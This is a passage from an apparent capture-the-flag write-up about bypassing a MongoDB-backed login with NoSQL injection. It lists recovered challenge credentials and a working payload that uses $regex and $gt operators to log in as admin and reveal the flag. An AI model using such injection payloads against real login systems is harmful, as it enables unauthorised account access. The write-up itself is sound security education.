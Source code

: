 ```
So removing the escape character, we get the credentials

    Username: bob
    Password: lVeYMg4U4$@L

---

Strangely enough, bob's login did not yield any flag...

### Regex for Username

Unfortunately, my assumption was wrong. The flag was actually printed out when trying the username instead of the password.

    >> send('{"username": {"$regex": "^a.*"}, "password": {"$gt": ""}}')
    undefined
    Welcome: admin!
    gigem{n0_sql?_n0_pr0bl3m_8a8651c31f16f5dea}

Gah! Such a waste of effort. Nevertheless, I learnt a lot about MongoDB from this.

## Flag

	gigem{n0_sql?_n0_pr0bl3m_8a8651c31f16f5dea}
